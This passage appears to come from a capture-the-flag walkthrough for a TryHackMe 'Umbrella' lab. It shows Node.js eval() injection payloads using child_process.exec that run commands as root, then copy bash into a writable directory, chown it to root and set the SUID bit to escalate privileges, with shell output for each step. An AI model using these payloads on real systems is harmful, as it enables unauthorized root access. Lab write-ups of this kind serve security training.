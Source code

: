![](/assets/img/posts/walthrough/tryhackme/2024-10-26-umbrella/after-login.png)

We can see the input field where we can enter the input that will be evaluated by the `eval()` function. If we enter the payload `require('child_process').exec('touch /log/test')` and check the `/home/claire-r/timeTracker-src/logs/` we will see that the file test is created and belongs to the root user.
```bash
claire-r@ctf:~/timeTracker-src$ ls -l logs/ 
total 4
-rw-r--r-- 1 root root    0 Oct 25 15:24 test
-rw-r--r-- 1 root root 2571 Oct 25 15:24 tt.log
```

Now that we have code execution on the target, we can copy the bash binary to the `timeTracker-src/logs/` directory we have write access to, change the ownership to root, and set the SUID bit on it. Let's first copy the binary to the `/home/claire-r/timeTracker-src/logs/` directory.
```bash
claire-r@ctf:~/timeTracker-src$ cp /usr/bin/bash logs/
```

We can now send the payload `require('child_process').exec('chown root:root /logs/bash')` to change the ownership to root.
```bash
claire-r@ctf:~/timeTracker-src$ ls -l logs/
total 1160
-rwxr-xr-x 1 root root 1183448 Oct 25 15:28 bash
-rw-r--r-- 1 root root       0 Oct 25 15:24 test
-rw-r--r-- 1 root root    2635 Oct 25 15:29 tt.log
```

Finally, we can set the SUID bit on this binary by sending the payload `require('child_process').exec('chmod +s  /logs/bash')`. 
```bash
claire-r@ctf:~/timeTracker-src$ ls -l logs/
total 1160
-rwsr-sr-x 1 root root 1183448 Oct 25 15:28 bash
-rw-r--r-- 1 root root       0 Oct 25 15:24 test
-rw-r--r-- 1 root root    2667 Oct 25 15:30 tt.log
```
